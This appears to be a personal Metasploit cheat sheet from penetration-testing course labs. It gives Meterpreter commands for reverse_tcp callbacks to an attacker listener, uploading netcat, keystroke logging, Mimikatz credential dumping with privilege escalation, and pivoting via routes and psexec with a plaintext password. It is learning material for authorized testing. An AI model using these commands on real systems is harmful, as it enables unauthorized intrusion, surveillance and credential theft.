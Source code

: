 ```yaml
---
creation date: December 20th 2022
last modified date: December 20th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Metasploit]]  
___

## Description:  

### Basics
View categories
`show -h`
`show auxiliary`

To search for a module
`search portscan`

Use `info` to get more information
`msf5 > info exploit/windows/http/syncbreeze_bof`

To activate a module
`use auxiliary/scanner/portscan/tcp`
or you can search first and then just pick the number you want
`use 4`
`back` can be used to move out of the module and return to the main msf5 prompt.

To view details of a module
`show options`
`show advanced` to show more options.
`set`  and `unset` can be used to set and remove options.

`show payloads` can be used to retrieve a listing of all payloads that are compatible with the currently selected exploit module.

`check` can be used to verify whether or not the target host and application are vulnerable (will only work on certain modules).

use `run` or `exploit` to start the module once the options are set. `exploit -j` will run the job in the background.

use `jobs` to list background jobs, `jobs -i 0` to interact with a job, and `kill 0` to kill a job.

We can retrieve information regarding successful login  attempts from the database with `creds`.

### Meterpreter Commands

`help` will get a list of modules and commands

Useful commands:
```
sysinfo
getuid
upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec
download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
edit edit.txt
search -f autoexec.bat
execute -f cmd.exe -i -H
```

use `shell` to drop into a system shell. This can be useful when our shells dies, we can return to the meterpreter session with `^c` or `exit`.

`background` can be used to background a session. Use `sessions -l` to list sessions, `session -i 5` to interact, and `session -k 1` to kill a session.

We can use `transport list` to switch protocols after our initial compromise.
To add a new transport protocol (this would be like choosing windows/meterpreter/reverse_tcp payload)
`meterpreter > transport add -t reverse_tcp -l 10.11.0.4 -p 5555`
We have to set up a listener to accept the connection.
```
meterpreter > background
[*] Backgrounding session 5...
msf5 exploit(windows/http/syncbreeze_bof) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit -j
msf5 exploit(multi/handler) > sessions -i 5
meterpreter > transport next
[*] Changing to next transport ...
[*] Sending stage (179779 bytes) to 10.11.0.22
[+] Successfully changed to the next transport, killing current session.
msf5 exploit(multi/handler) > sessions -i 6
```

### Post-Exploitation with Metasploit

^5b4372
Screenshot and keylogger
```
meterpreter > screenshot
Screenshot saved to:/root/.msf4/modules/exploits/windows/http/syncbreeze/beVjSnrB.jpeg


meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
ipconfig<CR>
whoami<CR>
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
meterpreter >

```

Executing Powershell Commands
```
meterpreter > load powershell

meterpreter > help powershell
Powershell Commands
===================
 Command Description
 ------- -----------
 powershell_execute Execute a Powershell command string
 powershell_import Import a PS1 script or .NET Assembly DLL
 powershell_shell Create an interactive Powershell prompt

meterpreter > powershell_execute "$PSVersionTable.PSVersion"

```

Loading Mimikatz and dumping system credentials.
```
meterpreter > load kiwi
Loading extension kiwi...
Success.
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_msv
```


### Pivoting

^8f3ca2

^6aac08
We will use route and add to create a path to the alternate internal network subnet we discovered. We will also specify the session ID that this route will apply to:
```
msf5 > route add 192.168.1.0/24 11
[*] Route added
msf5 > route print
```
We can now portscan into this network
```
msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389
msf5 auxiliary(scanner/portscan/tcp) > run
```
We can also pivot using the psexec module:
```
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec_psh) > set SMBDomain corp
SMBDomain => corp
msf5 exploit(windows/smb/psexec_psh) > set SMBUser jeff_admin
SMBUser => jeff_admin
msf5 exploit(windows/smb/psexec_psh) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf5 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec_psh) > set RHOST 192.168.1.110
LHOST => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set LPORT 444
LPORT => 444
msf5 exploit(windows/smb/psexec_psh) > exploit
```
It’s important to note that the added route will only work with established connections, meaning that a new shell. A reverse shell would not be able to find it's way back to the attacking machine.

As an alternative to adding routes manually, we can use the autoroute post-exploitation module, which can set up pivot routes through an existing meterpreter session automatically.

```
msf5 exploit(multi/handler) > use multi/manage/autoroute
msf5 post(multi/manage/autoroute) > show options
msf5 post(multi/manage/autoroute) > set session 4
msf5 post(multi/manage/autoroute) > exploit

```

Setup a socks proxy:
[[SOCKS Proxies#^8b8d22]]

Port forward:
[[Port Forwards#^651985]]





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 20th 2022 (10:33 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
